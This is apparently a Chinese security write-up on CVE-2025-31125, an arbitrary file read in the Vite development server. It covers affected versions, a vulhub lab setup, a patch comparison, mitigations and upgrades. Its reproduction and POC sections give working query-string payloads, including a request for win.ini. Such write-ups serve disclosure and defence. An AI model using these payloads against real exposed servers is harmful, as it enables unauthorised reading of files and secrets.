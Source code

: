 # 1、漏洞信息

Vite是一个现代化的前端构建工具，旨在提供更快的开发体验。它通过基于原生ES模块的开发服务器，在开发过程中实现极速热更新（HMR）。Vite在构建时使用了高度优化的打包工具，如esbuild，极大提高了构建速度。它支持多种前端框架（如React、Vue）并可以通过插件扩展功能。Vite的目标是简化前端开发工作流，并提升开发效率。



攻击者可以通过`?inline&import`或`?raw?import`参数获取经过`base64`编码的非授权文件内容。该漏洞仅在开发服务器通过`--host`或`server.host`配置暴露至网络时，才可能被利用。



# 2、漏洞概述

| 漏洞名称  | 任意文件读取漏洞                                |
| --------- | ----------------------------------------------- |
| 漏洞等级  | 中危                                            |
| CVE编号   | CVE-2025-31125                                  |
| CNVD编号  | 暂无                                            |
| CNNVD编号 | 暂无                                            |
| 其他编号  | 暂无                                            |
| 披露时间  | 2025-03-31                                      |
| 分数      | 5.3                                             |
| CVSS      | CVSS:3.1/AV:N/AC:H/PR:N/UI:R/S:U/C:H/I:N/A:N    |
| 披露链接  | https://www.cve.org/CVERecord?id=CVE-2025-31125 |



# 3、影响范围

```
6.2.0 <= Vite <= 6.2.3
6.1.0 <= Vite <= 6.1.2
6.0.0 <= Vite <= 6.0.12
5.0.0 <= Vite <= 5.4.15
Vite <= 4.5.10
```



# 4、环境搭建

此环境为CVE-2025-30208的漏洞环境，但是适用于CVE-2025-31125。

```
git clone --depth 1 https://github.com/vulhub/vulhub.git
cd /opt/vulhub/vite/CVE-2025-30208/
docker compose up -d
```



# 5、代码审计

```
/@fs/C:/windows/win.ini?import&inline=1.wasm?init
```

- `?inline`作用是将文件（如图片、字体、WASM 等）的内容转换为Base64 编码字符串或直接嵌入到`JS/HTML/CSS`中，避免额外的 HTTP 请求。
- `?init`主要用于 WebAssembly（`.wasm`）文件的初始化，默认只有`.wasm`支持`?init`其他如`.data`、`.bin`可以通过插件拓展支持。

![image-20250427150707864](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271507954.png)



对比v6.2.3和v6.2.4增加了三条正则的匹配，这意味着只要url存在这些参数都会进入到`ensureServingAccess`函数中

```
const urlRE = /[?&]url\b/
const rawRE = /[?&]raw\b/
const inlineRE = /[?&]inline\b/
```

![image-20250427150815737](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271508845.png)



# 6、漏洞复现

将POC附加到 URL，可以绕过此限制并检索文件的内容

```
?raw?import
?inline&import
?import&inline=1.wasm?init
```

![image-20250427154653584](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271548588.png)



Base64解码

![image-20250427151724402](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271517490.png)



# 7、解决方案

## 7.1、临时缓解方案

如果暂时无法升级，可以采取以下措施降低风险：

限制网络访问：避免使用 `--host` 或设置 `server.host` 为 `localhost`，确保开发服务器仅限本地访问。

严格文件权限：确保敏感文件不可被 Vite 进程读取（例如通过操作系统权限控制）。



## 7.2、升级修复方案

Vite 官方已发布安全补丁，修复版本包括：

```
Vite >= 6.2.4
6.1.3 <= Vite < 6.2.0
6.0.13 <= Vite < 6.1.0
5.4.16 <= Vite < 6.0.0
4.5.11 <= Vite < 5.0.0
```

请尽快通过 `npm update vite` 或手动升级到以上版本以修复漏洞。



# 8、POC

```
?raw?import
?inline&import
?import&inline=1.wasm?init
```



# 9、参考链接

https://github.com/vitejs/vite/commit/59673137c45ac2bcfad1170d954347c1a17ab949

https://github.com/vitejs/vite/security/advisories/GHSA-4r4m-qw57-chr8







